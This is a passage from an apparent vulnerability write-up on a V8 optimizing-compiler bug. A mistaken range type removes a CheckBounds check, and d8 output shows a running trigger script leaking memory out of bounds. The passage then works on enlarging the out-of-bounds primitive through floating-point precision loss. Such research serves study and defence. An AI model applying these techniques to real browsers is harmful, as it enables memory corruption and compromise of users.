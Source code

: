 Confirm that by looking at the graph.

![bad_range_for_checkbounds](/images/swimming-in-a-sea-of-nodes/bad_range_for_checkbounds.png)

The index type used by `CheckBounds` is `Range(0,2)`(but in reality, its value can be up to 4) whereas the length type is `Range(4,4)`.  Therefore, the index looks to be always in bounds, making the `CheckBounds` disappear. In this case, we can load/store 8 or 16 bytes further (length is 4, we read at index 4. You could also have an array of length 3 and read at index 3 or 4.).

Actually, if we execute the script, we get some OOB access and leak memory!

```shell
$ d8 trigger.js --allow-natives-syntax
3.0046854007112e-310
```

#  Exploitation 

Now that we understand the bug, we may want to improve our primitive.  For instance, it would be interesting to get the ability to read and write more memory.

## Improving the primitive

One thing to try is to find a value such that the difference between `x + n + n` and `x + m` (with ` m = n + n` and `x = Number.MAX_SAFE_INTEGER + 1`) is big enough.

For instance, replacing `x + 007199254740989 + 9007199254740966` by `x + 9014398509481956` gives us an out of bounds by 4 and not 2 anymore.

```text
d8> sum = 007199254740989 + 9007199254740966
x + 9014398509481956
d8> a = x + sum
18021597764222948
d8> b = x + 007199254740989 + 9007199254740966
18021597764222944
d8> a - b
4
```

And what if we do multiple additions to get even more precision loss? Like `x + n + n + n + n` to be transformed as `x + 4n`?

```text
d8> var sum = 007199254740989 + 9007199254740966 + 007199254740989 + 9007199254740966
undefined
d8> var x = Number.MAX_SAFE_INTEGER + 1
undefined
d8> x + sum
27035996273704904
d8> x + 007199254740989 + 9007199254740966 + 007199254740989 + 9007199254740966
27035996273704896
d8> 27035996273704904 - 27035996273704896
8
```

